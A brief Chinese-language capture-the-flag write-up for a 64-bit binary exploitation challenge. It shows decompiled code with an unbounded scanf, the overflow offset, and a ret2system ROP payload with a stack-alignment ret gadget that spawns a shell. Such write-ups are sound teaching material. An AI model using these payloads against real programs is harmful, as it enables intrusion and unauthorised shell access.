



先查看防护

再查看反汇编代码

~~~asm
004005d6    int32_t main(int32_t argc, char** argv, char** envp)

004005d6    {
004005d6        system("echo -n "What's your name? "");
004005f9        void var_18;
004005f9        __isoc99_scanf("%s", &var_18);
0040060f        printf("Welcome to the Pwn World, %s!\n", &var_18);
0040061a        return 0;
004005d6    }
~~~

__isoc99_scanf 可以溢出

这道题和之前的一道题很相似，rop，system，字符串的bin/sh

offset 为24

64位，我们直接构造payload：

~~~python
payload = b'A'*24+p64(pop_rdi)+p64(bin_sh)+p64(system_plt)
~~~

有栈对齐问题，优化payload：

~~~python
payload = b'A'*24+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system_plt)
~~~

就是这题flag还要找 藏得还挺深
